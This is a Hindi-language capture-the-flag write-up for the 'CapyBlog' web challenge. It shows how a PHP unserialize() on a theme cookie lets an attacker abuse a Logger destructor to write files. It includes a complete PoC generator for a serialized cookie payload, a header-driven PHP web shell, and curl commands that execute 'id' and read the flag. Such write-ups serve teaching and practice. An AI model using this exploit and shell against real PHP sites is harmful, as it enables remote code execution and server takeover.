

# [web] CapyBlog

> **श्रेणी:** `web`  
> **CTF:** KubSTU CTF 2026 Spring

### विवरण:

*हाल ही में थीम बदलना ठीक से काम नहीं कर रहा। शायद यह सब बग्स की वजह से है? पहले भी साइट ऐसे ही काम करती थी?*

### समाधान:

**बैकअप खोजते हैं**


 

`[/backup/www.zip](http://172.20.0.2/backup/www.zip)` पथ पर वेब एप्लिकेशन का बैकअप मिलता है


#### **अटैक वेक्टर की खोज**

सब कुछ उन फंक्शंस की तलाश से शुरू होता है जो उपयोगकर्ता से डेटा लेते हैं। PHP में मुख्य "रेड फ़्लैग" — `unserialize()` है, अगर इसमें `$_GET`, `$_POST` या `$_COOKIE` से कुछ आता है।

**कमज़ोर भाग (**`utils.php`):


 

- एप्लिकेशन `theme` कुकी की सामग्री पर भरोसा करता है। वहाँ थीम सेटिंग्स वाले ऑब्जेक्ट या ऐरे की अपेक्षा करता है।
- **समस्या:** `unserialize()` सिर्फ डेटा रिस्टोर नहीं करता, यह सिस्टम में डिक्लेयर किए गए क्लासों के इंस्टेंस बनाता है। अगर हम `Logger` क्लास के ऑब्जेक्ट का वर्णन करने वाली स्ट्रिंग भेजें, PHP इसे बना देगा।

जब PHP स्ट्रिंग से ऑब्जेक्ट रिस्टोर करता है, तो वह स्वचालित रूप से विशेष "मैजिक मेथड" कॉल करता है। यही हमारा नियंत्रण का माध्यम है।

**`classes.php` में मैजिक मेथड:**

1. `__wakeup()` - डिसीरियलाइज़ेशन पर तुरंत कॉल होता है।
2. `__destruct()` - ऑब्जेक्ट मेमोरी से हटने पर कॉल होता है (स्क्रिप्ट निष्पादन का अंत)।
3. `__toString()` - ऑब्जेक्ट को स्ट्रिंग के रूप में उपयोग करने पर कॉल होता है।

> हमारे मामले में `FileHandler` क्लास में `__wakeup` बस फ़ाइल खोलता और बंद करता है - यह दिलचस्प नहीं। लेकिन `Logger` — में हमारे लिए दिलचस्प कार्यक्षमता है


#### **उपयोगी "गैजेट" (POP Chain) की खोज**

हम ऐसा मेथड खोजते हैं जो उस डेटा के साथ कुछ खतरनाक करता है जिसे हम नियंत्रित कर सकते हैं।

**`Logger` क्लास का विश्लेषण** (`classes.php`):


 

- हम सीरियलाइज़ड स्ट्रिंग के माध्यम से `$logFile` और `$message` प्रॉपर्टी को पूरी तरह नियंत्रित करते हैं।
- हम PHP से **कोई भी स्ट्रिंग** **किसी भी फ़ाइल** में लिखवा सकते हैं, जिसमें वेब सर्वर की लिखने की पहुँच है।

  #### **शेल लिखते हैं**

अब सब कुछ जोड़ते हैं। हमें चाहिए:

1. फ़ाइल नाम चुनना (जैसे, वेब एप्लिकेशन के रूट `/var/www/html/` में
2. PHP-कोड (शेल) बनाना।
3. इसे `unserialize()` के लिए समझने योग्य प्रारूप में पैक करना।

**एक्सप्लॉइट का लॉजिक:**

- `Logger` ऑब्जेक्ट बनाते हैं।
- `$logFile = "/var/www/html/css_optimizer.php"` सेट करते हैं।
- `$message = "<?php system(\$_GET['cmd']); ?>"` सेट करते हैं।
- सीरियलाइज़ करते हैं (`O:6:"Logger":2:{s:7:"logFile";s:31:"..."; ...}`)।
- Base64 में एन्कोड करते हैं और कुकी में डालते हैं।

> जब `index.php` स्क्रिप्ट (या कोई अन्य जहाँ `utils.php` शामिल है) काम पूरा करेगी, हमारे "नकली" लॉगर का डिस्ट्रक्टर सक्रिय होगा और शेल फ़ाइल बना देगा।

---

आधिकारिक एक्सप्लॉइट (पेलोड जनरेट करने के लिए PHP के [ऑनलाइन कंपाइलर]() भी उपयोग कर सकते हैं)

```php
<?php

/**
 * PoC Exploit for CapyBlog Deserialization
 * Generates a Base64 cookie payload for RCE
 */

class Logger
{
    public $logFile;
    public $message;

    public function __construct($file, $msg)
    {
        $this->logFile = $file;
        $this->message = $msg;
    }
}

// 1. पैरामीटर सेटअप
// फ़ाइल वेब एप्लिकेशन की रूट डायरेक्टरी में बनेगी
$shell_filename = "general_shell.php";
$shell_path = "./" . $shell_filename;

// शेल: कोड निष्पादन के लिए 'X-Capy-Command' हेडर का उपयोग करता है
$shell_content = '<?php if($c=$_SERVER["HTTP_X_CAPY_COMMAND"]){echo "---OUT---\n";system($c);echo "---END---\n";} ?>';

// 2. ऑब्जेक्ट बनाना और कुकी जनरेट करना
$exploit_obj = new Logger($shell_path, $shell_content);
$serialized_payload = serialize($exploit_obj);
$cookie_payload = base64_encode($serialized_payload);

// 3. हमलावर के लिए कमांड आउटपुट
echo "--- CAPYBLOG RCE EXPLOIT GENERATOR ---\n\n";

echo "[STEP 1] शेल बनाने के लिए payload भेजना:\n";
echo "curl -v -b \"theme={$cookie_payload}\" http://TARGET/index.php\n\n";

echo "[STEP 2] RCE जाँच ('id' निष्पादन):\n";
echo "curl -H \"X-Capy-Command: id\" http://TARGET/{$shell_filename}\n";


echo "[STEP 2] RCE जाँच ('id' निष्पादन):\n";
echo "curl -H \"X-Capy-Command: cat \/flag.txt\" http://TARGET/{$shell_filename}\n";


?>
```

/flag फ़ाइल पढ़ते हैं

## फ़्लैग 

```graphql
KubSTU(capybl0g_php_d3s3r1al1zat10n)
```

